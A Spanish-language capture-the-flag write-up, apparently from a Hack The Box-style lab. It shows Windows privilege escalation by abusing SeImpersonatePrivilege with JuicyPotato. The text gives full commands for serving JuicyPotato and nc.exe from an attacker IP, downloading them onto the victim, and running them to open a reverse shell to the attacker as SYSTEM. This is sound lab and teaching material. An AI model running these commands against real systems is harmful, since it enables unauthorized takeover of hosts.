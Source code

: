 Aqui vemos que tenemos privilegios SeImpersonatePrivilege, tiramos como siempre de JuicyPotatoe.exe

Lo descargamos en la maquina de atacante y lo enviamos a la victima.

```bash
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
cp /usr/share/sqlninja/apps/nc.exe
python3 -m http.server 80
```

En la maquina victima lo descargamos

```bash
cd C:\Windows\Temp
mkdir privesc
cd privesc
iwr -uri http://10.10.14.8/JuicyPotato.exe -OutFile JuicyPotato.exe
iwr -uri http://10.10.14.8/nc.exe -OutFile nc.exe
```

Nos ponemos en escucha por el puerto 443

```bash
rlwrap nc -nlvp 443
```

Nos connectamos con el servicio nc con el JuicyPotato.

```bash
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c .\nc.exe -e cmd 10.10.14.8 443"
```

Aqui nos sale une error 10038. Esto suele passar cuando el CLSID no es el correcto. Como savemos con el systeminfo
que estamos en una maquina Windows10 Enterprise, podemos buscar el CLSID correcto en [Interesting CLSID](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md)
encontramos el CLSID que corresponde y con el parametro 
```bash
 -c 
```


```bash
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c .\nc.exe -e cmd 10.10.14.8 443" -c "{5B3E6773-3A99-4A3D-8096-7765DD11785C}"
```

La reverse shell nos a functionnado y con 
```bash
 whoami 
```
 vemos que ya somos nt authority\system y podemos ver la flag.
